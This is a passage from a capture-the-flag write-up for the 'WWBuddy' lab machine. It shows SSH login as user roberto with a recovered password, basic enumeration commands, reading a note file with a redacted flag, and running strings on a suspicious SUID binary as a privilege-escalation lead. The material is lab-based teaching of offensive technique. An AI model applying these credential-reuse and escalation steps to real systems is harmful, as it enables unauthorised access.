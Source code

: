 Found user `roberto`'s password!

**Let's SSH into user `roberto`:**
```
┌──(root🌸siunam)-[~/ctf/thm/ctf/WWBuddy]
└─# ssh roberto@$RHOSTS   
roberto@10.10.94.193's password: 
[...]
$ whoami;hostname;id;ip a
roberto
wwbuddy
uid=1001(roberto) gid=1001(roberto) groups=1001(roberto),200(developer)
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 9001 qdisc fq_codel state UP group default qlen 1000
    link/ether 02:be:79:84:16:8b brd ff:ff:ff:ff:ff:ff
    inet 10.10.94.193/16 brd 10.10.255.255 scope global dynamic eth0
       valid_lft 3345sec preferred_lft 3345sec
    inet6 fe80::be:79ff:fe84:168b/64 scope link 
       valid_lft forever preferred_lft forever
```

I'm user `roberto`!

**`/home/roberto/importante.txt`:**
```
$ cat /home/roberto/importante.txt
A Jenny vai ficar muito feliz quando ela descobrir que foi contratada :DD

Não esquecer que semana que vem ela faz 26 anos, quando ela ver o presente que eu comprei pra ela, talvez ela até anima de ir em um encontro comigo.


THM{Redacted}
```

**Google translated:**
```
Jenny will be very happy when she finds out she's been hired :DD

Don't forget that next week she turns 26, when she sees the present I bought her, maybe she'll even be excited to go on a date with me.
```

### roberto to jenny

**Let's check out the weird SUID binary!**
```
$ strings /bin/authenticate
[...]
You need to be a real user to be authenticated.
groups | grep developer
You are already a developer.
USER
Group updated
newgrp developer
[...]
```
